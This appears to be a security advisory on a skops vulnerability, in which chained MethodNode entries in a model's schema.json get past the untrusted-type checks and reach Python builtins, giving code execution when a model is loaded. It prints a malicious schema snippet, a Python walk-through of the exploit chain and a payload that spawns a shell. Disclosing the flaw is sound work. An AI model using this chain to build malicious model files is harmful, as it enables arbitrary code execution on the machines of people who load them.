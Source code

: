 ## Summary
`skops` is a Python library for securely sharing scikit-learn-based models without using pickle. However, an inconsistency in `MethodNode` can be exploited to access unexpected object fields through dot notation. This can be used to achieve **arbitrary code execution at load time**.


## Details
A `skops` model is a ZIP file containing various files, including a `schema.json` that represents the model structure in a tree-like format. Each node in the tree can have different types, among those expected by `skops`. These types include `MethodNode`, `TypeNode`, `FunctionNode`, and others. The intended workflow is to inspect the model using the `skops` API's `get_untrusted_types` function, which identifies types not considered trusted by default. The user is expected to review these types and, if deemed secure, explicitly pass them to the `load` function. The `load` function will then load the model, but it will raise an error if any untrusted types remain unapproved.

This report will focus on the `MethodNode`, which allows access to attributes of existing objects via dot notation. However, there are several critical shortcomings:

* Although the `__class__` and `__module__` fields are checked via `get_untrusted_types` and during the `load` phase (as a concatenated string), **they are not actually used by `MethodNode`**. Instead, the `func` and `obj` entries in the `schema.json` are used to determine the behavior. This means that even an apparently harmless `__module__.__class__` pair can lead to access of arbitrary attributes or methods of loaded objects, without any additional checks.

* **Nothing prevents an attacker from chaining multiple `MethodNode` instances** to traverse the object hierarchy and access harmful attributes.

For example, an object can be loaded using the `ObjectNode`, which normally enforces strict checks and allows only trusted or explicitly permitted objects. However, once the object is loaded, dot notation can be used to access any of its attributes or methods. Furthermore, by chaining multiple `MethodNode`s, one can traverse the Python object hierarchy and reach dangerous components such as the `builtins` dictionary—which contains functions like `exec` and `eval`.

This vulnerability allows the attacker to **bypass both `get_untrusted_types` and `load` checks**, enabling access to dangerous attributes and methods without triggering any alerts. As demonstrated in the PoC, arbitrary code execution is possible using just an anonymous object returned by `get_untrusted_types` (in the example, `builtins.int`, though any type would suffice since it doesn't influence the exploit).


For example, consider a malicious `schema.json` snippet like:

```json
...
"__class__": "int",
"__module__": "builtins",
"__loader__": "MethodNode",
"content": {
  "obj": {
    "__class__": "int",
    "__module__": "builtins",
    "__loader__": "MethodNode",
    "content": {
      "obj": {
        "__class__": "QuadraticDiscriminantAnalysis",
        "__module__": "sklearn.discriminant_analysis",
        "__loader__": "ObjectNode",
        "__id__": 1
      },
      "func": "decision_function"
    }
  },
  "func": "__builtins__"
}
...
```

Here, the attacker loads a trusted `QuadraticDiscriminantAnalysis` object using `ObjectNode`, accesses its `decision_function` method via `MethodNode`, and then uses another `MethodNode` to access the `__builtins__` dictionary—**all without triggering the untrusted type detection mechanisms**.


## Exploit

The provided exploit demonstrates arbitrary code execution using only `builtins.int` as the type returned by `get_untrusted_types` and verified by `load`. Note that the actual type is fully controlled by the attacker and can be anything (e.g., `provola.whatever`), as it's not used by the actual `load` or the exploit logic.

### Components Used in the Exploit

To craft the exploit, I used the following `skops` nodes:

* **`MethodNode`** – to silently access arbitrary Python attributes via dot notation. This is the vulnerable core.
* **`ObjectNode`** – to load a trusted object and use it as a base to access its attributes and methods. Also used to set object state via `__setstate__`.
* **`PartialNode`** – to easily control arguments passed to functions accessed.
* **`DefaultDictNode`** – to store a crafted call to `exec` using the `default_factory` attribute.
* **`DictNode`** – to trigger the call at load time.
* **`JsonNode`, `TypeNode`, `ListNode`**, etc. – for basic types, structures, and constants.

Additionally, the interesting implementation of `GridSearchCV.score` was leveraged, specifically:

```python
def score(self, X, y=None, **params):
    ...
    scorer = self.scorer_[self.refit]
    return scorer(self.best_estimator_, X, y, **score_params)
```


### Exploit Logic (Python Equivalent)
The `schema.json` used in this exploit is quite complex and carefully constructed. For this reason, I prefer to illustrate the exploit logic using the following Python code, which presents the core idea in a simplified and readable format. It simulates how the malicious `schema.json` is interpreted and executed by `skops` during model loading. This code demonstrates how an attacker can manipulate trusted objects and attributes using `MethodNode` and chain multiple nodes, ultimately gaining access to the `__builtins__` dictionary and invoking `exec` with a controlled payload, hence achieving arbitrary code execution.


```python
from sklearn.discriminant_analysis import QuadraticDiscriminantAnalysis
from sklearn.model_selection._search import GridSearchCV
from functools import partial
from collections import defaultdict

# Step 1: Access builtins via dot traversal
a = QuadraticDiscriminantAnalysis().decision_function.__builtins__

# Step 2: Prepare GridSearchCV with overridden attributes
b = GridSearchCV()
b._sklearn_version = "1.7.0"
... # Less interesting attributes
b.scorer_ = a  # builtins dict
b.refit = "exec"
b.best_estimator_ = "import os; os.system('/bin/sh')"

# Step 3: Create callable chain
c = b.score
d = partial(c, {}, {})  # empty dicts as globals/locals
e = defaultdict(**{})
e.default_factory = d
f = e.__getitem__  # dot traversal again :)

# Step 4: Force __getitem__ with a missing key to trigger default_factory
```

What we can see here is that, when `f` is called, it invokes the `__getitem__` method of a `defaultdict`. Since the requested key doesn’t exist (the dict is empty), `default_factory` is triggered, which is the partial function `d`, wrapping the `score` method of the loaded `GridSearchCV` object.

Critically, the attributes of the `GridSearchCV` object (`scorer_`, `refit`, and `best_estimator_`) have been overwritten so that:

* `scorer_` is the `__builtins__` dictionary,
* `refit` is set to `exec`, selecting the `exec` function from `__builtins__`,
* `best_estimator_` contains the malicious payload: `"import os; os.system('/bin/sh')"`.

When `score()` is eventually called via the partial function, it resolves `self.scorer_[self.refit]` to `exec`, and then calls it as:

```python
exec(self.best_estimator_, {}, {})
```

In other words:

```python
exec("import os; os.system('/bin/sh')", {}, {})
```

This leads to **arbitrary command execution**.

Finally, to trigger this chain, it's sufficient to force a call to `f` (i.e., `__getitem__`) with a key that doesn’t exist. This can be done at model load time using `DictNode`. We use the implementation of `DictNode._construct()`:

```python
def _construct(self):
    content = gettype(self.module_name, self.class_name)()
    key_types = self.children["key_types"].construct()
    for k_type, (key, val) in zip(key_types, self.children["content"].items()):
        content[k_type(key)] = val.construct()
    return content
```

By setting `key_types = [f]` and using a missing key, the exploit executes during model loading.

### What is shown when loading the model

Suppose a user loads the model with the following code:

```python
from skops.io import load, get_untrusted_types

unknown_types = get_untrusted_types(file="model.skops")
print("Unknown types", unknown_types)
input("Press enter to load the model...")
loaded = load("model.skops", trusted=unknown_types)
```

The output will be:

```
Unkonown types ['builtins.int']
Press enter to load the model...
```

However, the model loading will trigger the execution of the payload, which in this case is a shell command. The same can be modified to execute any arbitrary code.

### Proof of Concept (PoC)
The complete malicious `skops` model is provided for reference and reproducibility. The PoC is available.

## Attack scenario

An attacker can craft a malicious model file that, when loaded, executes **arbitrary code** on the victim’s machine. This occurs **at load time**, requiring no user interaction beyond loading the model. Given that `skops` is often used in collaborative environments and is designed with security in mind, this vulnerability poses a significant threat.